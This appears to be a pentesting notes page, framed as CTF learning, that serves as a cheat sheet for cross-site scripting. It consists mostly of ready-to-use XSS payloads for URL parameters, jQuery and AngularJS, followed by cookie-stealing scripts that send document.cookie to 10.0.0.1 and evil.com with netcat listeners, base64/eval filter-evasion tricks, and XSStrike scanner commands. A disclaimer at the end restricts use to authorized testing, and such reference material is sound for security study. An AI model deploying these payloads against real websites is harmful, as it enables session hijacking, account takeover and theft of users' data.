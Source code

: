```yaml
---
title: CROSS SITE SCRIPTING (XSS)
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```

XSS enables attackers to injection client-side scripts into web applications.

# Payloads
We can insert them into URL params, POST params or HTTP headers.
```html
<script>alert(1)</script>
"><script>alert(1)</script>
<script>alert(1)</script>
"><script>alert(1)</script>
'></script><script>alert(1)</script>
';alert(1);'

" src=1 onerror=alert(1)>
<><img src=1 onerror=alert(1)>
"><img src=1 onerror=alert(1)>
"></span><img src=1 onerror=alert(1)>
"><svg onload=alert(1)>

javascript:alert(1)
\"-alert(1)//

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<a onmouseover=alert(1)>click</a>
" onmouseleave='alert(1)'">

<img src="jav ascript:alert(1)">
<img src="jav&#x09;ascript:alert(1)">
<img src="jav&#x0A;ascript:alert(1)">

</textarea><script>alert(1)</script>

<script>fetch('/profile?new_password=password');</script>

/?q=&subparam=--><script>alert(1)</script>
/index.php#value='><script>alert(1)</script>
```
# JQuery
```html
https://vulnerable.com/#<img src=1 onerror=alert(1)>
<iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
# AngularJS
If you find "<html ng-app>" or "<div ng-app>" in the HTML source code, you may be able to abuse it by XSS.
```js
https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
```
# Cookie Stealing
Create the following payload for stealing Cookie and inject into target web page.
```html
<!-- GET request -->
<script>fetch("http://10.0.0.1/?"+btoa(document.cookie));</script>

<!-- POST request -->
<script>
    fetch("http://10.0.0.1/", {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```
Start web server or listener in local machine.
```
sudo python3 -m http.server 80
# or
sudo nc -lvp 80
```
# Filter Evasion
Website may sanitize inputs to prevent from malicious code. However, we might be able to circumvent by modifying our code.
For example, change JavaScript code to Base64 string.
```js
fetch("http://evil.com/"+document.cookie);
# Base64: ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs=
```
Insert the base64 string into the “eval” function as below.
```
# '(' => '\x28'
# ')' => '\x29'
<img src="x" onerror=eval.call`${"eval\x28atob`ZmV...2EoZCkpKQo=`\x29"}`
```
# Automation
* XSStrike is a XSS scanner : https://github.com/s0md3v/XSStrike

```js
# GET request
python xsstrike.py -u http://vulnerable.com/?param=test
# POST reqeust
python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"
# data as JSON
python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```